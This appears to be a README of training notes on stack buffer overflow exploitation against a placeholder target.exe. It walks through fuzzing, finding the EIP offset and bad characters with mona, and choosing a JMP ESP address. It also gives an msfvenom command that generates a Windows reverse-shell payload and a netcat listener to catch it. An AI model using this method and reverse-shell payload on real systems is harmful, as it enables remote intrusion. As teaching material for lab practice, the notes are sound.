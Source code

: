 # bof
## Buffer Overflows

## Setup
* Open Immunity Debugger as admin
* In Immunity Debugger, set a working folder for mona:
```!mona config -set workingfolder c:\mona\%p```

## Fuzzing
* In Kali, create the fuzzer.py script and execute
* Note the size of the largest string sent
* Create a cyclic payload with pattern_create.rb, 400 bytes longer than crashing string size:
```$ msf-pattern_create -l <string+400>```
* Create exploit.py with the generated payload
		
## Control EIP
* Relaunch target.exe and run exploit.py
* In Immunity Debugger, run findmsp:
```!mona findmsp -distance <string+400>```
* Locate "EIP contains normal pattern: <> (offset <>)"
* Note EIP and ESP registers
* Update exploit.py with new values:
  * Set offset variable value in exploit.py to EIP offset value
  * Set payload to empty string
  * Set retn variable to 'BBBB'
* Relaunch target.exe and run exploit.py
* EIP should now be overwritten with 42424242

## Find Bad Characters
### Iteration 0
* Create a bytearray in Mona:
```!mona bytearray -b "\x00"```

_Note location of 'bytearray.bin' (c:\mona\*\bytearray.bin)_

* In Kali, create and run a python script to generate bad characters:
```python
from __future__ import print_function

for x in range(1, 256):
    print("\\x" + "{:02x}".format(x), end='')

print()
```
* Update payload variable in exploit.py with badchars string

### Iteration 1..n of n
* Reload target.exe and run exploit.py
* Note the ESP address
* Run !mona compare with the ESP address
```!mona compare -f C:\mona\*\bytearray.bin -a <ESPaddress>```
* Generate a new bytearray in Mona, excluding all badchars from the comparison result:
```!mona bytearray -b "\x00\x07\x2e\xa0"```
	
_Note: don't include sequential characters_

* Remove badchars from exploit.py:
```payload = "<all non-bad characters>"```
*  All bad characters identified when result: "Unmodified"

## Jump Point
* Run !mona jmp to identify all jump points with addresses that don't contain badchars:
```!mona jmp -r esp -cpb "\x00\x07\x2e\xa0\"```
* Choose a jmp address and update "retn" variable in exploit.py, reversing the endianness:
  * Mona address: "0x625011af"
  * Python address: "\xaf\x11\x50\x62"

## Generate Payload and NOPs
* Create a payload with msfvenom:
```msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> EXITFUNC=thread -b "\x00\x07\x08\x2e\x2f\xa0\xa1\xa2\xa3\xa4" -f py```
* Update payload of exploit.py with 'buf' variable definition and set payload = buf
* Set padding variable to 16 NOP bytes:
```padding = "\x90" * 16```

## Exploitation
* Start nc listener on :port
* Reload target.exe and exploit
